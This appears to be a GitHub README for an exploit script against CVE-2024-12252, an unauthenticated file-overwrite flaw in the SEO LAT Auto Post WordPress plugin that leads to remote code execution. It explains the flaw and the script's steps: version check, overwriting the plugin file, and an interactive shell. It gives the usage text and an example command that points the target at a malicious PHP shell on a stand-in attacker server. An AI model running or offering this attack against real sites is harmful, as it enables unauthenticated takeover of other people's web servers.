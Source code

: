 # SEO LAT Auto Post <= 2.2.1 - Remote Code Execution

## Description

The SEO LAT Auto Post plugin for WordPress is vulnerable to file overwrite due to a missing capability check on the `remote_update` AJAX action in all versions up to, and including, 2.2.1. This makes it possible for unauthenticated attackers to overwrite the `seo-beginner-auto-post.php` file which can be leveraged to achieve remote code execution.

## Vulnerability Details

- **CVE**: CVE-2024-12252
- **CVSS Score**: 9.8 (Critical)

## Exploitation

This script exploits the vulnerability in the SEO LAT Auto Post plugin to achieve remote code execution by overwriting the `seo-beginner-auto-post.php` file. The script automates the process of checking the plugin version, triggering the exploit, and providing an interactive shell for executing commands.

## Usage
    
```plaintext
usage: CVE-2024-12252.py [-h] -u URL --attack-url ATTACK_URL

CVE-2024-12252 | SEO LAT Auto Post <= 2.2.1 - Remote Code Execution # by: By Nxploit | Khaled Alenazi

options:
-h, --help            show this help message and exit
-u, --url URL         Target base URL (e.g., http://example.com/wordpress)
--attack-url ATTACK_URL
                      Direct URL to your malicious PHP shell
```

Run the script with the target URL and the URL to your malicious PHP shell:
```sh
python CVE-2024-12252.py -u http://example.com/wordpress --attack-url http://yourserver.com/shell.php
```

## References

- [Wordfence Intelligence](https://www.wordfence.com/)
- [CVE-2024-12252](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-12252)
